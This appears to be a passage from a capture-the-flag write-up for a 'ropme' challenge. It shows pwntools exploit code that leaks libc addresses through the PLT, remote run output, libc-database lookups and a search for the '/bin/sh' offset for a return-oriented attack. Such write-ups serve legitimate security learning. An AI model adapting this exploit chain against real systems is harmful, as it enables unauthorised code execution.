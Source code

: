 ```python
plt_fflush = p64(0x400510)
payload += plt_fflush
p.recv()
p.sendline(payload)
leak = binascii.hexlify(p.recv()[:-1][::-1])
print(b'0x' + leak)
leak = p64(int(leak, 16))
print(leak)
p.interactive()
```

Executing it remotely:
```bash
python3 exploit.py r
[+] Opening connection to 206.189.20.127 on port 32648: Done
b'0x7f1169c25690'
b'\x90V\xc2i\x11\x7f\x00\x00'
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$
```
Leaked the address! But I don't know where the system is. Need to find out the version of libc, tried to google some libc searcher and found this: https://libc.blukat.me/. For puts database didn't find libc. So, I leaked fflush and gets and it found:

> libc6_2.15-0ubuntu20.2_i386 libc6_2.15-0ubuntu20_i386

Don't use the database web interface. Git clone the repo and use tools there. https://github.com/niklasb/libc-database. Also, leak whatever you want, in the final script, I stayed on puts leaking. So, I leaked puts and then did this magic:
```bash
../find puts 690                                  
launchpad-ubuntu-glibc-oneiric (libc6_2.13-0ubuntu15_amd64)
launchpad-ubuntu-glibc-natty (libc6_2.13-0ubuntu4_amd64)
launchpad-ubuntu-glibc-xenial (libc6_2.23-0ubuntu10_amd64)
launchpad-ubuntu-glibc-xenial (libc6_2.23-0ubuntu11_amd64)
launchpad-ubuntu-glibc-xenial (libc6_2.23-0ubuntu4_amd64)
launchpad-ubuntu-glibc-xenial (libc6_2.23-0ubuntu5_amd64)
launchpad-ubuntu-glibc-xenial (libc6_2.23-0ubuntu6_amd64)
launchpad-ubuntu-glibc-xenial (libc6_2.23-0ubuntu7_amd64)
launchpad-ubuntu-glibc-xenial (libc6_2.23-0ubuntu9_amd64)
```

Then, I just started to brute-force the libraries because my final version of the exploit was ready. I just replaced offset values. SOOOO, finally, I tried the third libc and then GOT THIS OUTPUT.
```bash
python3 remote_exploit.py remote
[+] Opening connection to 159.65.54.14 on port 30989: Done
[*] '/home/kali/Downloads/ropme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
b"ROP me outside, how 'about dah?\n"
b'7f3697792690'
[BASE] libc: 0x00007f3697723000
b"ROP me outside, how 'about dah?\n"
Enum b'sh: 1: %s%s%s%s: not found\n'
[*] Closed connection to 159.65.54.14 port 30989
[+] Opening connection to 159.65.54.14 on port 30989: Done
b"ROP me outside, how 'about dah?\n"
b'7ff3565d0690'
[BASE] libc: 0x00007ff356561000
b"ROP me outside, how 'about dah?\n"
Traceback (most recent call last):
```

[LEAKING /bin/sh]: b'\n' 1625423
[LEAKING /bin/sh]: b'TO FIX: \n' 1625415
[LEAKING /bin/sh]: b'V_LEVEL\n' 1625407
[LEAKING /bin/sh]: b'GVERB\n' 1625399
[LEAKING /bin/sh]: b'ize.c\n' 1625391
[LEAKING /bin/sh]: b'anonicalize.c\n' 1625383
[LEAKING /bin/sh]: b'/bin/sh\n' 1625367